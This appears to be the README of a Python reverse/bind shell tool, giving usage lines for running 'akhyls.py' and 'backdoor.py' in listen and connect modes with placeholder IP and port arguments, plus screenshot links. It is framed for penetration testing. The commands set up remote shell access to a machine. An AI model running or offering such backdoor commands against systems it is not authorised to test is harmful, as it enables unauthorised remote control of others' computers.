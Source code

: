 Python Reverse-Bind Shell
<h1>Windows support not yet<h1>

Usage:
        >>chmod +x akhyls.py
        
        chmod +x backdoor.py

        >>./akhyls.py -R <PORT>                 (reverse shell)(own computer)
        >>./backdoor.py --c <IP> <PORT>         (connect mode)(vulnerable machines for penetration testing)
        >> Interactive shell to check >> use command 'shell_check'
        >>Interactive shell to spawn >> use command 'interactive_shell'
<img src="https://preview.ibb.co/kT9JLz/1.png">
<img src="https://image.ibb.co/nmjBxe/Screen_Shot_08_23_18_at_10_37_PM.png">

        
        OR              OR              OR
        
        >>./backdoor.py --l <PORT>              (listen mode)(vulnerable machines for penetration testing)
        >>./akhyls.py -B <IP> <PORT>            (bind shell)(own computer)
        >> Interactive shell to check >> use command 'shell_check'
        >>Interactive shell to spawn >> use command 'interactive_shell'

<img src="https://image.ibb.co/bCFvOK/Screen_Shot_08_23_18_at_10_38_PM.png">      
<img src="https://preview.ibb.co/b3ffYK/Screen_Shot_08_20_18_at_04_52_PM_001.png">


